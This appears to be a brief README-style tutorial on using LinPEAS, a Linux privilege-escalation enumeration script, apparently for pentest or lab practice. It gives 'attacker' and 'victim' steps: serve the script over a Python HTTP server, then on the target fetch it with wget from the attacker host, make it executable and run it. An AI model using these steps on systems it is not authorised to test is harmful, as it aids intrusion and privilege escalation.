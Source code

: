 linpeas tool Used For :
 * privillege Escalation Tactics 
 * Automated Vulnerability Discovery 
 * Created by Caelos Polop
 * For Linux/unix/macOS System 
Functionality of LinPEAS :
 * Streamlines Scanning Processes
 * Misconifiguration & Vulnerabilities
 * Priorities Secuirty Threats 
 * Deatailed Vulnerability Reports 
 
github link : https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

steps : Attacker machine 
 1. go to location  where your linpeas folder present 
 2. run http server 
 	command : sudo python3 -m http.server 
 victim machine 
  1. check present directory 
  	command : pwd
  2. move to tmp directory 
  	command : cd tmp
  3. run command that  download linpeas file attacker machine
  	command : wget http://tun0:port/linpeas.sh 
  4. check the file permission change to excutable file 
  	command : chmod +x linpeas.sh
  5. run file 
  	command : ./linpeas.sh
   
